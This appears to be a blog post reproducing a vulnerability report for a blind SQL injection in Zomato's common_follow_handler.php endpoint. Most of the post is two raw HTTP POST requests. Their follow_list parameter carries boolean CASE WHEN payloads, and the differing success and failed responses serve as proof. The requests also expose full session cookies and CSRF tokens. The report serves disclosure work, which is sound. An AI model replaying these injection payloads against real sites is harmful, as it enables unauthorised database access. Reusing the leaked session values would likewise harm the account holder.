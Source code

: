 ```yaml
---
layout: post
title: www.zomato.com SQL Injection
categories: articles
---
```


<p align="right" class="date">{{ page.date | date_to_string }} - saltedfish</p>

## Steps To Reproduce:

Step 1: visit and login

Step 2:

{% highlight php %}
POST /php/common_follow_handler.php?type=follow_all HTTP/1.1
Host: www.zomato.com
Connection: close
Content-Length: 109
Accept: application/json, text/javascript, /; q=0.01
Origin: https://www.zomato.com
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Referer: https://www.zomato.com/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: fbtrack=8a7f14c8b74958d3eaa88d1a45aca0fd; _ga=GA1.2.657534215.1529389361; dpr=1; cto_lwid=7ff8913d-c913-428f-bc62-2b2083f7450d; G_ENABLED_IDPS=google; __utmx=141625785.FQnzc5UZQdSMS6ggKyLrqQ$0:NaN; zhli=1; selectedDeliveryPlace=%7B%22entity_id%22%3A%223881%22%2C%22entity_type%22%3A%22DSZ%22%2C%22place_name%22%3A%22Dubai%20Knowledge%20Park%22%7D; feed_pref=city; SL_C_23361dd035530_KEY=05a4e27ac591b9ca633a4fe9b5fdc3875e22560f; zl=en; frcp_g=1; _gid=GA1.2.551947448.1535962312; al=1; orange=3247115; zone=7000; csrf=273022387c6fdb5b035790462cee2310; PHPSESSID=6314a14c38fd9f6ef8757102c6223db08fc4f1f2; squeeze=c9d44ea7f3a4e878d4f9bc0702a90e35; session_id=f53614924d964-b18a-4bcc-bb7b-918f7223963a; fbcity=6; ak_bmsc=622939D608DCC69BECCB32F4EB4922D1CB4A4306441F000052448E5B74DCC346~plgjmroXGsDV+cWwoWZmINEIZ9IUb6nQGZT/dzAAWOQYNy6nqrSxauuL2cd2Sax+Tb1VKyzeMDAA/PwJ4GCzzG6IrmYk7pqgFqZfR++ffCPgoAXauCju2ow4KsEo6NUzC9w+zJlddGcmSfYwtku5M4x6XzscOoEBFqCJ29/nQo8qaCwyNTUbDwVIxY4+N2Y8ETRdmdaV2/mDuYCMoRDo45M7rUpcPvo7wF9JJbKpUv/iI=; AMP_TOKEN=%24NOT_FOUND; LEL_JS=true; bm_sv=718E9125BCCC28798F841AE52ADAC741~aZPoyN9VGHc87X49I0AQJpvVlQVjR/b1xWSWdNxAYuUkjNAUKCM6IB9BClW9qggof43td/HTNmKWlgq8UQCRB/KxaMyj/fPoHzz2IGc8oCIzyS/K1WfF7s70YierHmrrz0xk/sxm1taCFz5ftMKYDJpJxZDvm04cyYHIkMAcqHc=; __utmxx=141625785.FQnzc5UZQdSMS6ggKyLrqQ$0:1536051775:8035200

follow_list=55175964/(case when(1=1) then 1 else 0 end)&type=USER&csrf_token=273022387c6fdb5b035790462cee2310


response {"status":"success"}
{% endhighlight %}


Step 3:

{% highlight php %}
POST /php/common_follow_handler.php?type=follow_all HTTP/1.1
Host: www.zomato.com
Connection: close
Content-Length: 109
Accept: application/json, text/javascript, /; q=0.01
Origin: https://www.zomato.com
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Referer: https://www.zomato.com/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: fbtrack=8a7f14c8b74958d3eaa88d1a45aca0fd; _ga=GA1.2.657534215.1529389361; dpr=1; cto_lwid=7ff8913d-c913-428f-bc62-2b2083f7450d; G_ENABLED_IDPS=google; __utmx=141625785.FQnzc5UZQdSMS6ggKyLrqQ$0:NaN; zhli=1; selectedDeliveryPlace=%7B%22entity_id%22%3A%223881%22%2C%22entity_type%22%3A%22DSZ%22%2C%22place_name%22%3A%22Dubai%20Knowledge%20Park%22%7D; feed_pref=city; SL_C_23361dd035530_KEY=05a4e27ac591b9ca633a4fe9b5fdc3875e22560f; zl=en; frcp_g=1; _gid=GA1.2.551947448.1535962312; al=1; orange=3247115; zone=7000; csrf=273022387c6fdb5b035790462cee2310; PHPSESSID=6314a14c38fd9f6ef8757102c6223db08fc4f1f2; squeeze=c9d44ea7f3a4e878d4f9bc0702a90e35; session_id=f53614924d964-b18a-4bcc-bb7b-918f7223963a; fbcity=6; ak_bmsc=622939D608DCC69BECCB32F4EB4922D1CB4A4306441F000052448E5B74DCC346~plgjmroXGsDV+cWwoWZmINEIZ9IUb6nQGZT/dzAAWOQYNy6nqrSxauuL2cd2Sax+Tb1VKyzeMDAA/PwJ4GCzzG6IrmYk7pqgFqZfR++ffCPgoAXauCju2ow4KsEo6NUzC9w+zJlddGcmSfYwtku5M4x6XzscOoEBFqCJ29/nQo8qaCwyNTUbDwVIxY4+N2Y8ETRdmdaV2/mDuYCMoRDo45M7rUpcPvo7wF9JJbKpUv/iI=; AMP_TOKEN=%24NOT_FOUND; LEL_JS=true; bm_sv=718E9125BCCC28798F841AE52ADAC741~aZPoyN9VGHc87X49I0AQJpvVlQVjR/b1xWSWdNxAYuUkjNAUKCM6IB9BClW9qggof43td/HTNmKWlgq8UQCRB/KxaMyj/fPoHzz2IGc8oCIzyS/K1WfF7s70YierHmrrz0xk/sxm1taCFz5ftMKYDJpJxZDvm04cyYHIkMAcqHc=; __utmxx=141625785.FQnzc5UZQdSMS6ggKyLrqQ$0:1536051775:8035200

follow_list=55175964/(case when(1=2) then 1 else 0 end)&type=USER&csrf_token=273022387c6fdb5b035790462cee2310


response {"status":"failed"}
{% endhighlight %}

## Impact — SQL Injection

![图片1](https://i.loli.net/2019/04/28/5cc53dbd05596.png)
![图片2](https://i.loli.net/2019/04/28/5cc53dbd4ad52.png)

